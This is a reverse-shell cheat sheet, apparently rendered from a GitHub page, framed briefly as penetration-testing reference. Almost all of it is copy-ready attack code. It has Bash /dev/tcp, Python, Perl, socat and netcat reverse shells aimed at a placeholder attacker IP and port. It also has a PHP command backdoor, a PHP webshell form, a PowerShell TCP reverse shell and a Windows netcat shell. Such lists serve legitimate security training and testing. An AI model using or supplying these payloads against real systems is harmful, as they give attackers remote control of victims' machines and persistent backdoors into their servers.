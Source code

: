 A reverse shell is a connection established from the victim's machine back to the attacker's machine, enabling remote control. This is a key technique in penetration testing and post-exploitation, often bypassing firewalls that block incoming connections.

## Common Reverse Shell Commands

#### Linux Reverse Shells

1. **Bash Reverse Shell**
```bash
bash -i >& /dev/tcp/<attacker_ip>/<attacker_port> 0>&1
```

2. **Python Reverse Shell**
```bash
python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("<attacker_ip>",<attacker_port>)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); subprocess.call(["/bin/sh"])'
```

3. **Perl Reverse Shell**
```bash
perl -e 'use Socket;$i="<attacker_ip>";$p=<attacker_port>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```


4. **Socat Reverse Shell**
```bash
socat TCP:<attacker_ip>:<attacker_port> EXEC:/bin/sh
```


5. **Netcat Reverse Shell**
```bash
nc -e /bin/bash <attacker_ip> <attacker_port>
```

#### PHP Reverse Shells
1. **Basic PHP command prompt**
```bash
<?php system($_GET['cmd']); ?>
```

2. **PHP webshell**

```bash
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```
#### Windows Reverse Shells

1. **PowerShell Reverse Shell**
```bash
$client = New-Object System.Net.Sockets.TCPClient("<attacker_ip>",<attacker_port>); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{0}; while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i); $sendback = (iex $data 2>&1 | Out-String ); $sendback2  = $sendback + "PS " + (pwd).Path + "> "; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte,0,$sendbyte.Length); $stream.Flush()}
```

2. **Netcat Reverse Shell**
```bash
nc.exe -e cmd.exe <attacker_ip> <attacker_port>
```

3. **Python Reverse Shell**
Same as the Linux Python example, but ensure Python is installed on the Windows target.

